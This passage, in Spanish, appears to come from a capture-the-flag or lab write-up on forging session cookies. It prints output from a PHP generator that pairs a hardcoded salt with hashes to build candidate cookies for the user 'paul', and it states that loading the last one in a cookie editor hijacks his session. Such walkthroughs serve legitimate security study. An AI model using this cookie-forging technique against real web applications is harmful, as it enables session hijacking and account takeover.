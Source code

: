 ```html
Letra: z
Key: s4lTy_stR1nG_z(!528./9890
lanz23ccbc5fab73e561862271461cc6bedc
```

**(Y si, una de las `cookies` que se genera, es la que tenemos actualmente en nuestra sesión)**

Ahora, hagamos lo mismo pero con `paul`:

> [https://paiza.io/projects/5iqJvM3BOwOFtZb0clK0Og](https://paiza.io/projects/5iqJvM3BOwOFtZb0clK0Og).

```php
<?php
    $username = "paul";
...
```

```html
Username: paul
Max: 3

Seed: 0
Letra: p
Key: s4lTy_stR1nG_p(!528./9890
paula2a6a014d3bee04d7df8d5837d62e8c5

Seed: 1
Letra: a
Key: s4lTy_stR1nG_a(!528./9890
paul61ff9d4aaefe6bdf45681678ba89ff9d

Seed: 2
Letra: u
Key: s4lTy_stR1nG_u(!528./9890
paul8c8808867b53c49777fe5559164708c3

Seed: 3
Letra: l
Key: s4lTy_stR1nG_l(!528./9890
paul47200b180ccd6835d25d034eeb6e6390
```

Si probamos con un editor de cookie, logramos robarle la sesión a **paul** con la última generada:

```html
Seed: 3
Letra: l
Key: s4lTy_stR1nG_l(!528./9890
paul47200b180ccd6835d25d034eeb6e6390
```
